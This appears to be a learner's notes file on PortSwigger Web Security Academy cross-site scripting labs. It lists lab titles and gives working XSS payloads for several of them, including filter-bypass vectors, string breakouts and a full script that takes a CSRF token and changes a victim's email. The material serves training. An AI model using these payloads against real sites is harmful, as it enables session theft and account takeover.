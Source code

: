 # Cross-Site Scripting

## Apprentice
- Reflected XSS into HTML context with nothing encoded
- Stored XSS into HTML context with nothing encoded
- DOM XSS in document.write sink using source location.search
- DOM XSS in innerHTML sink using source location.search
- DOM XSS in jQuery anchor href attribute sink using location.search source
- DOM XSS in jQuery selector sink using a hashchange event
- Reflected XSS into attribute with angle brackets HTML-encoded
- Stored XSS into anchor href attribute with double quotes HTML-encoded
- Reflected XSS into a JavaScript string with angle brackets HTML encoded

## Practitioner
- DOM XSS in document.write sink using source location.search inside a select element
    - Inject malicious javascript into the storeId query parameter to escape from the string. URL: https://0ac0003b03854101851caa5f00c50027.web-security-academy.net/product?productId=1&storeId=%22%3E%3C/select%3E%3Cimg%20src=1%20onerror=alert(1)%3E
- DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
- Reflected DOM XSS
- Stored DOM XSS
- Reflected XSS into HTML context with most tags and attributes blocked
- Reflected XSS into HTML context with all tags blocked except custom ones
    - Used the Burp XSS cheat sheet payloads to determine that \<SVG> is not blocked, and in particular the
    \<animatetransform> tag. Used intruder to discover that the onbegin event is not blocked. Inserted the URL-encoded payload into the URL as the search query parameter: %22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E 
- Reflected XSS in canonical link tag
- Reflected XSS into a JavaScript string with single quote and backslash escaped
    - The search query payload is interpolated directly in a script. Break out of the string by using this payload: \</script><script>alert(1)</script>
- Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
    - Break out of the string using a backslash and single quote, since the backslash is not escaped. Payload: \'-alert();\\\
- Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
    - use \&apos; as the user's website to break out of the string and trigger alert. Payload: http://foo?&apos;-alert(1)-&apos;
- Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
    - Take advantage of the template literal to use string interpolation. Payload: ${alert()}
- Exploiting cross-site scripting to steal cookies
    - Uses the Burp Collaborator feature (professional) as an external server to send the cookie to. You can take advantage of the fact that HTML tags are not escaped to inject a script into the comment input.
- Exploiting XSS to bypass CSRF defenses
    - Take advantage of the lack of input validation in the comment input to inject a script which steals the csrf token and includes it in a request to change the user's email when the page loads --> account takeover. Payload: \<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>

